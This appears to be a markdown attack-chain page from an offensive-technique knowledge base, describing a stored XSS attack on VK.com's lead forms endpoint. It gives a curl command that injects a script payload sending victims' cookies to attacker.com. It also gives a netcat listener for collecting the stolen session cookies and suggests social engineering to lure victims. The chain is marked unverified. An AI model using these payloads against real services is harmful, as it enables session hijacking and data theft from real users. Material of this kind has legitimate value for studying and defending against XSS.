

# Stored XSS in VK.com Lead Forms for Session Hijacking

Multi-stage attack chain demonstrating exploitation of a stored XSS vulnerability in VK.com's /lead_forms_app.php endpoint to inject malicious scripts into lead form data, which execute in the browsers of authenticated users viewing the forms, potentially leading to session hijacking or data exfiltration.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for payload testing
- Proxy tool like Burp Suite for form manipulation

### Target Environment

- Web platform with PHP backend
- Access to VK.com lead forms application
- Authenticated session for form submission

### Initial Access Requirements

- Valid VK.com account
- Network access to https://vk.com
- No special privileges needed beyond form submission

## Detailed Attack Procedures

### Step 1: Payload Injection
procedure: [[procedures/Inject-Malicious-Payload-into-Lead-Forms]]

**Objective**: Submit a form with a malicious JavaScript payload to the vulnerable /lead_forms_app.php endpoint, where it gets stored without sanitization.

**Instructions**: Use a tool like curl to POST form data containing the XSS payload to the lead forms endpoint. For example, craft a payload like `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>` to exfiltrate cookies.

Execute [[commands/curl-post-xss-payload]] to inject the payload:

```bash
curl -X POST 'https://vk.com/lead_forms_app.php' -d 'form_data=<script>document.location="http://attacker.com/steal?cookie="+document.cookie</script>&other_fields=value' -H 'Cookie: session=your_session'
```

Then, verify injection by viewing the form as an admin or user.

**Expected Output**: HTTP 200 response indicating successful form submission; payload stored in the database.

**Success Indicators**:
- Form submission succeeds without errors
- Payload appears unescaped when viewing the form source

### Step 2: Trigger and Execute
procedure: [[procedures/Trigger-and-Execute-Stored-XSS]]

**Objective**: Have a victim (e.g., authenticated user or admin) view the infected lead form, triggering the stored script execution in their browser for session hijacking or data theft.

**Instructions**: Direct the victim to the affected lead form URL via social engineering or wait for natural viewing. Monitor your attack server for exfiltrated data like session cookies.

Use [[commands/monitor-exfil-server]] to listen for incoming data:

```bash
nc -lvp 80
```

**Expected Output**: Victim's browser executes the script, sending data to your server (e.g., stolen cookies received via netcat).

**Success Indicators**:
- Alert or data exfiltration observed on attack server
- Victim's session compromised (e.g., access gained with stolen cookies)

## Attack Chain Summary

### Key Achievements

1. Successful injection of persistent XSS payload into lead forms
2. Execution of arbitrary JavaScript in victim browsers
3. Potential for session hijacking and sensitive data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
